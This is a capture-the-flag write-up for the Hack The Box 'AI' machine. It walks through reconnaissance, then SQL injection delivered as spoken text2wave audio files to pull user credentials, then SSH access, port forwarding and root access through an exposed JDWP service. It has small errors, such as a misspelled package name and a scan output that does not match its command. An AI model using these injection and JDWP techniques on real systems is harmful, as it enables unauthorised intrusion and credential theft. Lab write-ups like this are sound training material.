# HTB AI (10.10.10.163) MACHINE WRITE-UP


---

### TABLE OF CONTENTS
* [PART 1 : INITIAL RECON](#part-1--initial-recon)
* [PART 2 : PORT ENUMERATION](#part-2--port-enumeration)
  * [TCP PORT 80 (http)](#tcp-port-80-http)
* [PART 3 : EXPLOITATION](#part-3--exploitation)
* [PART 4 : GENERATE USER SHELL](#part-4--generate-user-shell)
* [PART 5 : LATERAL MOVEMENT (nobody -&gt; monitor)](#part-5--lateral-movement-nobody---monitor)
* [PART 6 : PRIVILEGE ESCALATION (monitor -&gt; root)](#part-6--privilege-escalation-monitor---root)

---

## PART 1 : INITIAL RECON

As usual, we begin with our nmap scan using default scripts and enumerate versions.

```console
# nmap -sC -sV -oA nmap/ai 10.10.10.163
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-04 00:41 EST
Nmap scan report for 10.10.10.163
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6d:16:f4:32:eb:46:ca:37:04:d2:a5:aa:74:ed:ab:fc (RSA)
|   256 78:29:78:d9:f5:43:d1:cf:a0:03:55:b1:da:9e:51:b6 (ECDSA)
|_  256 85:2e:7d:66:30:a6:6e:30:04:82:c1:ae:ba:a4:99:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Hello AI!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

__Notes__:
- We only have two ports open, __SSH__ on Port __22__ and its banner tells us its an __Ubuntu server__, we also have __http__ on port __80__ and its banner tells us its running __Apache httpd 2.4.29__.

- Since we don't get much from nmap, lets navigate to the actual page

---

## PART 2 : PORT ENUMERATION

### TCP PORT 80 (http)

- __`http://10.10.10.163`__:

Opening __http://10.10.10.163__ we get a page and if we go to the top left we get a menu


- Now i am intrested in the source too to see if i can get a clue as to what i this is. I dont recongoise any of the source :( so lets have a look at the pages.

- Opening the pages I notice they have a php extension. Great now it's a good time to have a recon running on the background.

- Clicking through the pages : about.php says they are doing something with voice recognition form audio files. and then we have drop your queries using wav files.


- Great, lets make a simple php file to test this out since we already know this site is based on php.

```console
<?php echo("Check out my blog"); ?>
```

- Testing this out:



- __Tip__ I always try basic scripts first instead of diving into reverse shell because if they have php safe mode enabled they may block your scripts. Go for something like echo ;).

- Nothing happens. Lets go back to __gobuster__ see what it has picked.

```console
# gobuster dir -u http://10.10.10.163 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x php,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.163/
[+] Threads:        40
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,301,302
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,log,txt,sql,wav
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/1/11 09:43:58 Starting gobuster
===============================================================
http://10.10.10.163/about.php (Status: 200)
http://10.10.10.163/contact.php (Status: 200)
http://10.10.10.163/db.php (Status: 200)
http://10.10.10.163/images (Status: 301)
http://10.10.10.163/index.php (Status: 200)
http://10.10.10.163/index.php (Status: 200)
http://10.10.10.163/intelligence.php (Status: 200)
http://10.10.10.163/uploads (Status: 301)
===============================================================
2020/1/11 09:46:26 Finished
===============================================================
```

- We already know about all these directories excpet for __intelligence.php__. As for __db.php__ probably contains credentials to the database. If we had like a [LFI vulnreabilitiy](https://www.hackingarticles.in/5-ways-exploit-lfi-vulnerability/) we could get that file.

- Opening __intelligence.php__



- Looks like aliases and going back to uploads it tells us a wav file. Thats a text2speech file.

- Lets do a little research on text2speech on linux. This is on mac by defaut where you say something and it goes and does it.

- So i find out that i need to install __Festival__ and this gives us text2wave.

---
## PART 3 : EXPLOITATION

```console
apt install festive
```

- Now we can create our wav file, testing this out:

```console
echo "hello" | text2wave -o test.wav
```



- its working!!!

- Now lets try sql injection

```console
echo "open single quote" text2wave -o test.wav
```



- And we have a really wierd *sql injection*.

- so lets try *union* injection. If we can get this running we can extract other data. Funny thing I couldnt get it to translate union properly, so i went back to our __intelligence.php__ page to see the keywords to use and noticed *join* was translated to *union*. Cool!! lets see if it works.

```console
echo "open single quote, join select, version open parenthesis close parenthesis comment database" | text2wave -o test.wav
- translated to 'union select version()-- -
```
- And we get our result



---

## PART 4 : GENERATE USER SHELL

- Lets try see if we can pull some credentials from the database. Enumerating this database was a hustle. Took me quite sometime to get this queries right.

```console
echo "open single quote, join, select, username from users comment database" | text2wave -o test.wav
```
- We have a possible username



- Now lets get the password
```console
echo "open single quote, join, select, password from users comment database" | text2wave -o test.wav
```


- Finally we can get our initial foothold at the box.

- We have ssh running on the box, lets see if these credentials will work.(fingers crossed)



- And we are in. Found our first flag too :)



---
## PART 5 : LATERAL MOVEMENT

- Lets check out the *www* folder and see what we have.

- Using [LinPEASS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) to find any previlage escalation vulnreability we can use to gain root shell. We will check out for colored stuff as linpea has a way of categorising them.

- We see __JDWP__ in red and yellow which is a potential priv esc, and its running on port *8000* and its local thats why *NMAP* dint pick it. We have tomcat running as well. We should definately take a look at that.



- We have mysql running as well.

- Lets check which ports are running. Using ss command same as netstat just a new way of doing it.

```console
alexa@AI:/var/www/html$ ss -lntp
State                    Recv-Q                    Send-Q                                             Local Address:Port                                       Peer Address:Port                   
LISTEN                   0                         128                                                127.0.0.53%lo:53                                              0.0.0.0:*                      
LISTEN                   0                         128                                                      0.0.0.0:22                                              0.0.0.0:*                      
LISTEN                   0                         1                                                      127.0.0.1:8000                                            0.0.0.0:*                      
LISTEN                   0                         80                                                     127.0.0.1:3306                                            0.0.0.0:*                      
LISTEN                   0                         100                                           [::ffff:127.0.0.1]:8080                                                  *:*                      
LISTEN                   0                         128                                                            *:80                                                    *:*                      
LISTEN                   0                         128                                                         [::]:22                                                 [::]:*                      
LISTEN                   0                         1                                             [::ffff:127.0.0.1]:8005                                                  *:*                      
LISTEN                   0                         100                                           [::ffff:127.0.0.1]:8009                                                  *:*       
```

- I'll forward a couple of ports

```console
ssh -L 8009:127.0.0.1:8009 -L 8080:127.0.0.1:8080 alexa@10.10.10.163
```

- And now I have two ports listening on my end

```console
root@kali:~/CTF/HTB# ss -lntp
State              Recv-Q              Send-Q                           Local Address:Port                           Peer Address:Port             Process                                         
LISTEN             0                   128                                  127.0.0.1:8080                                0.0.0.0:*                 users:(("ssh",pid=30840,fd=7))                 
LISTEN             0                   5                                      0.0.0.0:80                                  0.0.0.0:*                 users:(("python3",pid=30486,fd=3))             
LISTEN             0                   128                                  127.0.0.1:8009                                0.0.0.0:*                 users:(("ssh",pid=30840,fd=5))                 
LISTEN             0                   128                                      [::1]:8080                                   [::]:*                 users:(("ssh",pid=30840,fd=6))                 
LISTEN             0                   128                                      [::1]:8009                                   [::]:*                 users:(("ssh",pid=30840,fd=4))        
```

- So if i go to like *http://127.0.0.1:8080*

- Still we cant get into the apache tomcat

---

## PART 6 : PRIVILEGE ESCALATION (monitor -> root)

- Exploiting JDWP :

```console
alexa@AI:/opt/apache-tomcat-9.0.27$
ssh> -L8000:localhost:8000
Forwarding port.
```



- Lets forward port 8000 too from the box, the way you do that is by *enter new line* and type *~C* and enter

```console
alexa@AI:/tmp$
ssh> -L:8000:localhost:8000
Forwarding port.
```

- You can either exploit jdwp manually or the better way [jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier.git)



- And we are __ROOT__


